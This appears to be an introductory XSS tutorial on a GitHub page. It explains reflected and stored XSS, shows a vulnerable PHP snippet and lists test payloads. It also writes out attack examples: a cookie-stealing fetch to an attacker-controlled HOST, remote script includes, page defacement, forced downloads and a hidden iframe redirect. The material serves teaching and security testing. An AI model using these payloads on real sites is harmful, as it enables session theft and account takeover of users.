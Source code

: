 # XSS 101
## 1. What is XSS?

![xss-popup](https://github.com/GTekSD/SUASS/assets/55411358/3df669f0-6c57-4933-9c6f-fffdb76bb9f3)
Fig. 1 – A classic XSS popup.

Cross-site scripting (XSS) is both the name of the most common vulnerability in web applications and the exploitation method performed against it. XSS attacks abuse the dynamic way websites interact with their clients, the browsers. It makes possible, for an attacker, to control the victim’s browser and his/her interaction with a given vulnerable website. To display back content provided or controlled by an user, like an URL parameter or an input field, a flawed application opens the door to manipulation of this content. This manipulation, generically called injection, is the XSS attack.

Browsers display content using a mix of HTML (basically a text formatting language) and a programming language called JavaScript. Among other things, JavaScript is responsible for making things run in response to events in the context of an application. Another window opening when a page loads, the drag and drop of elements of the page and any changes made to the it on the fly (without the need to reload it), for example, are things done by JavaScript.

JavaScript code comes between the HTML tags, <script> and </script> (the opening and closing ones, respectively) or in the form of an external include by means of the “src” (source) attribute of this same tag. In this way, libraries (reusable pieces of code) can be added to the current page and executed by browser in that context.

So when an attacker is able to inject this pair of tags into a page, any JavaScript code can be executed if there’s no filter in place (which is usually the vast majority of cases). Because anything an user in a browser can do also can be done by JavaScript, an attacker has total control over it.

JavaScript can also appears in common HTML elements, the regular tags. By means of event handlers inside them, like “onload” (when an page element is loaded by browser) or “onmouseover” (when a mouse pointer hovers over something), JavaScript code can also be executed. It increases considerably the numbers of vectors for an XSS attack.

### Types of XSS

Cross-site scripting can occur in the context of an application or not. Out of the context of an application is very rare but more dangerous and it will not be covered here. Focusing on the application, XSS can be caused by server side code (code sent by web server) or client side code (code processed by browser from code sent by web server).

Code sent by web server is the source code. It is processed by browser, with the help of the JavaScript engine, to create the elements of the document in a programmatic manner. This is called DOM (Document Object Model) and it’s generated as soon as the source code arrives.

So we have source-based and DOM-based types of XSS in a context of an application. Both have the following execution types.

Source-based:         Reflected            Stored

DOM-based:            Reflected            Stored

When the website or application just reflects back content maliciously manipulated by user (usually in the URL), we have a reflected XSS attack. This reflection, as we saw, affects the way browsers display the page and how they process things and behave. Take the following PHP code:

    $username = $_GET[‘user’];

    echo “<h1>Hello, ” . $username . “!</h1>”;

Which would display the user name taken from URL like

    http://mydomain.com/hello.php?user=John

In source code, it would be:

    <h1>Hello, John!</h1>

![netsparker-post-1](https://github.com/GTekSD/SUASS/assets/55411358/41c3323b-7eb2-4b65-b042-77418d9ee67d)
Fig. 2 – Example of parameter value reflection.

So, if an attacker use the URL “http://mydomain.com/hello.php?user=<script>alert(1)</script>” he/she will be able to make the browser generate the following source code:

    <h1>Hello, <script>alert(1)</script>!</h1>

Triggering the classic javascript alert box.

![netsparker-post-2](https://github.com/GTekSD/SUASS/assets/55411358/4c4044b8-27b7-4157-8e1e-c7f04a968a80)
Fig. 3 – The XSS being triggered.

When the website or application stores user input in a database or a file to display it later, like a field in a profile or a comment in a forum, the resulting attack is called persistent or stored XSS. Every user that sees this stored content is a potential victim.

While in this last attack, an user just needs to open or navigate to an infected page to be attacked, in the reflected one an user usually must click on attacker’s link, which contains what we call vector or payload, the code used for the XSS attack. Although seeming less dangerous than stored version, a reflected XSS can also be invisibly embedded into any other website and executes from another browser tab or window in the context of the target application.

### XSS Basic Examples

Usually, for a proof of concept (PoC) of an XSS attack exploring source-based flaws, security testers use one the following code.

1. With <script> tag

        <script>alert(1)</script>

or

    <script src=//HOST/SCRIPT></script>

With HOST being a domain or IP address controlled by tester and SCRIPT being a script with alert(1) as content, like in:

    <script src=//brutelogic.com.br/1.js></script>

2. With regular HTML tags
    1. Event-based

            <TAG EVENT=alert(1)>

    With TAG being any HTML or XML tag and EVENT being a supported event handler like:

        <body onload=alert(1)>
    
        <img src=1 onerror=alert(1)>
    
        <svg onload=alert(1)>
    
        <x onmouseover=alert(1)>

    2. Resource-based

            <TAG RESOURCE=javascript:alert(1)>

      With TAG being a proper HTML tag that supports a RESOURCE like:
      
          <iframe src=javascript:alert(1)>
      
          <object data=javascript:alert(1)>
      
      All these make a window pop-up appears with the number one inside. Although useful to show the execution of JavaScript and then the possibility of hooking the browser for control, it’s better to prove that execution in the context of the application. For this, “alert(1)” is changed to “alert(document.domain)”.
      
      Example:
   
          <script>alert(document.domain)</script>
      
      These are just to prove the vulnerability; for attacks in the wild, a victim of an XSS attack usually will not be able to see anything while his/her browser will perform the attacker’s desired actions.

## 2. What Can be Done With XSS?

These are the main actions that can be performed by an attacker when exploiting an XSS flaw.

1. Cross-Site Request Forgery (CSRF)

JavaScript execution in a target domain makes possible for an attacker to capture an anti-CSRF token or nonce. That is the main defense for an application against a Cross-Site Request Forgery (CSRF) attack and the ability to steal that token allows an attacker to perform any action in behalf of victim.

If a victim is an administrator of a Content Management System (CMS) like the open-source WordPress, it’s possible to completely takeover the website like demonstrated here.  As long as the attacker knows how to perform actions that victim can do by means of HTTP requests, it’s possible to change victim’s recovery email if there’s no password protection leading to account takeover.

Attack example:

    <script src=//brutelogic.com.br/MYSCRIPT.js></script>

Where MYSCRIPT.js is a remote script with JavaScript code to perform all HTTP requests needed to achieve desired victim’s action in application.

2. Steal an user session on the vulnerable website (including admins)

Browsers use a small text file to store locally important data about a given website. This file contains what we call cookies, pairs of variable and value that have some meaning for the application that sent them to browser. Cookies are used to identify a person after he logged into an application, so server has no need to ask for credentials again every time an user request a resource. While cookies are valid (they expire after a certain time), an user session is active in the application. If these valid cookies are stolen, the thief can impersonate that user and interact with application in the same way the real user does, without even knowing his password.

This gives access to all personal data stored about an user, like his telephone number, home address and even his/her credit card details in an e-commerce website, for example. For website administrators (admins), an XSS attack can lead to takeover of his/her website and even the machine where it is hosted.

Attack example:

    <svg onload=fetch('//HOST/?cookie='+document.cookie)>

Where HOST is a domain or IP address controlled by attacker.

3. Capture the keys pressed by the user

By being able to capture what an user types in form fields, like the ones for login (username and password), an attacker can also compromise an user account in a given website.

4. Deface the page, serving any type of content

Users can be tricked into thinking that visited website was hacked or it’s not functional, which can lead to panic or the impossibility to perform actions in the application like buying an item.

Attack example:

    <svg onload="document.body.innerHTML='<img src=//HOST/IMAGE>'">

Where HOST is a domain or IP address controlled by attacker and IMAGE is a full screen image with a “Hacked by” message, for example.

5. Trick the user into giving his/her credentials by means of a fake HTML form

With the ability to serve any content, an attacker can convince an user to enter or reenter his/her credentials in the application, but this time sending them to an attacker.

6. Crash the browser (local denial of service)

Very rare use, but possible. An attacker may want to keep away a certain rival in an auction, for example, by making his/her browser unresponsive.

7. Force download of files

It’s straightforward to make user’s browser download any file with XSS, but not necessarily executing it, which would give access to user machine. Unfortunately, due to the fact that an attacker has control over several other aspects of the trusted website, seems not so difficult to also trick the user into open it.

Attack Example:

    <a href=//HOST/FILE download=FILENAME>Download</a>

Where HOST is a domain or IP address controlled by attacker, FILE is the file attacker want the victim to download and FILENAME is the name of the file in victim’s machine (user can be forced to download an executable file while saving it as an image, for example).

8. Redirect user’s browser to another website where his/her machine can be compromised by memory exploits

Again, with the aim to takeover the user machine, an attacker can redirect the browser invisibly to another web address where another prepared application will try to break the browser barrier to access the user operating system (which would lead to compromise). If user has an outdated or vulnerable browser, attacker has great chances of success.

Attack Example:

    <iframe src=//HOST/ style=display:none></iframe>

Where  is a domain or IP address controlled by attacker.
